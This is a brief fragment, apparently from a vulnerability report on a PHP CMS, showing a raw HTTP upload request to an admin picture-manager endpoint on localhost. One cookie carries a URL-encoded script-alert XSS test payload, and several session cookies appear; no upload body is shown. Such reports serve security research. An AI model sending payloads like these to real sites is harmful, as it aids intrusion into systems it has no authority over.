 ![](./public/a-5.png)

### HTTP Request for Upload:
```http
POST /index.php/admin4943/PicManager/picManager.html HTTP/1.1

Host: localhost

Accept-Encoding: gzip, deflate, br, zstd

Accept: */*

Cookie: Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6Mzoia

HRhIjtpOjE7fQ%3D%3D; EM_AUTHCOOKIE_lNE22nMPAa488ZNtzQ3WgvxbdQwb6OXM=admin%7C1770040866%7Cb261421f97bb00341664ae3a0f324f32; ujcms-visit-unique-visitor=499762764960989; ujcms-unique-visitor=-7658023558624320967; PHPSESSID=063db44dee3fd725ac70bcdf2d33ffbe; keeplogin=1%7C86400%7C1739866061%7C1ac00e88e1610806dc9a101784368bbd; status_desc=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E; version=1.2.5; access_::1=1739784248; access_127_0_0_1=1739791249

X-Requested-With: XMLHttpRequest

Sec-Fetch-Site: same-origin

Referer: http://localhost/index.php/admin4943/Config/base.html?columnId=23

Cache-Control: no-cache

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36

```
